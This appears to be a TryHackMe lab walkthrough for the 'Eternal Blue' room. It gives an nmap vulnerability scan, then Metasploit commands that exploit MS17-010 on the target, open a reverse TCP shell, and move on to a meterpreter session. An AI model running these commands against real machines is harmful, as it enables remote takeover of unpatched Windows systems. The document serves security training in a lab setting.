








# THM Eternal Blue  

## Recon  

 ### // Set a terminal environmental variable for target IP address  

    export IP=<target-ip-address> 

 ### // Run nmap vulnerability scan 

    nmap -sV -vv --script=vuln $IP  

 ### // Example  

  

 ### // Results  

> Host is vulnerable to Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)  

https://www.exploit-db.com/exploits/41891  

## Exploit  

 ### // Run msfconsole and perform reverse tcp shell exploit   

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  

> We set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally)  

 ### // Metasploit go brrrr...  

   

 > Options have been set and exploit is running  

  // Results  

    

  > Exploit initially failed, now we have a basic shell  

 ### // Backgrounding the shell example    

     background  

> Ctrl-z does the same thing  

 

 ## Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell  

 ### // Search for the command   
     search upgrade shell   

   

 ### // Select the script for use  

     use shell_to_meterpreter  

> Alternative: "use 4" (4th result in searches)

   

 ### // Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell  

   

 > Example of setting options and using "sessions" to display sessions  

 ### // Run the script  

 > The script ran, but we don't have an upgraded shell...

 ### // Hmmm. Thats not working...  
 For some reason, the script isn't upgrading our shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

 ### // Let's try again  

     msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set RHOSTS $IP;set LHOST tun0;run"  

 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default.  

